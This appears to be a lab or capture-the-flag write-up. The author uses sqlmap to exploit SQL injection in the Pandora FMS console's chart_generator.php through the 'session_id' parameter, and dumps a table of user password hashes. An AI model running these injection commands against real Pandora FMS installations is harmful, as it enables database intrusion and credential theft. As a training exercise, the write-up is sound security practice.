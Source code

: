 ```sh
cat DB_Dockerfile 
```
```sh
FROM mysql:5.5
MAINTAINER Pandora FMS Team <info@pandorafms.com>

WORKDIR /pandorafms/pandora_console

ADD pandoradb.sql /docker-entrypoint-initdb.d
ADD pandoradb_data.sql /docker-entrypoint-initdb.d
RUN chown mysql /docker-entrypoint-initdb.d

ENV MYSQL_DATABASE=pandora

RUN echo " \n\
sed -i \"1iUSE \$MYSQL_DATABASE\" /docker-entrypoint-initdb.d/pandoradb.sql \n\
sed -i \"1iUSE \$MYSQL_DATABASE\" /docker-entrypoint-initdb.d/pandoradb_data.sql \n\
" >> /docker-entrypoint-initdb.d/create_pandoradb.sh
```
Dbmane="pandora"
Table="tpassword_history" 
This website show where we can exploit.
https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained

# sqlmap
I don't use sqlmap very often, that's why I had lot of trouble.
```sh
sqlmap "http://localhost:2500/pandora_console/include/chart_generator.php" -D pandora

[20:44:13] [CRITICAL] no parameter(s) found for testing in the provided data (e.g. GET parameter 'id' in 'www.site.com/index.php?id=1'). You are advised to rerun with '--crawl=2'
```
```sh
sqlmap "http://localhost:2500/pandora_console/include/chart_generator.php?id=''" -D pandora --tables

[20:45:33] [WARNING] GET parameter 'id' does not seem to be injectable
```

Now I have to find out what I have to use instead if 'id'.
![](https://i.imgur.com/g5qEfwf.png)

```sh
sqlmap "http://localhost:2500/pandora_console/include/chart_generator.php?session_id=''" -D pandora

[20:47:42] [WARNING] potential permission problems detected ('Access denied')
```
I have an another error, it's good.
This is a cheat sheet:
https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet
```sh
sqlmap "http://localhost:2500/pandora_console/include/chart_generator.php?session_id=''"  -D pandora -T tpassword_history --dump

+---------+---------+---------------------+----------------------------------+---------------------+
| id_pass | id_user | date_end            | password                         | date_begin          |
+---------+---------+---------------------+----------------------------------+---------------------+
| 1       | matt    | 0000-00-00 00:00:00 | f655f807365b6dc602b31ab3d6d43acc | 2021-06-11 17:28:54 |
| 2       | daniel  | 0000-00-00 00:00:00 | 76323c174bd49ffbbdedf678f6cc89a6 | 2021-06-17 00:11:54 |
```